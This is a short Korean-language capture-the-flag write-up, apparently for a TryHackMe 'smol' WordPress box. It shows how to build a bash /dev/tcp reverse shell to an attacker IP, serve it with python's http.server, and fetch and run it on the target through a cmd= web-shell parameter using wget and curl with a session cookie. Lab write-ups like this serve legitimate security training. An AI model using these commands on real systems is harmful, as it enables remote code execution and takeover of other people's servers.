 ````markdown
## Python3 설치 및 리버스 쉘 서버 실행법

1. **Python3 설치**

```bash
sudo apt update
sudo apt install python3
```
````

2. **리버스 쉘 스크립트 작성**

```bash
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.8.136.212/1234 0>&1'" > rev.sh
```

3. **공격자가 악성 스크립트 배포를 위한 서빙**

```bash
python3 -m http.server 6666
```

- 현재 디렉터리 파일을 6666 포트로 서비스함

4. **타겟에서 스크립트 다운로드**

```bash
# browser url
http://www.smol.thm/wp-admin/index.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh

# curl
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=chmod +x /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=cat /tmp/rev.sh > tmp.txt
```

5. **타겟에서 리버스 쉘 실행**

```
http://www.smol.thm/wp-admin/index.php?cmd=bash /tmp/rev.sh
```
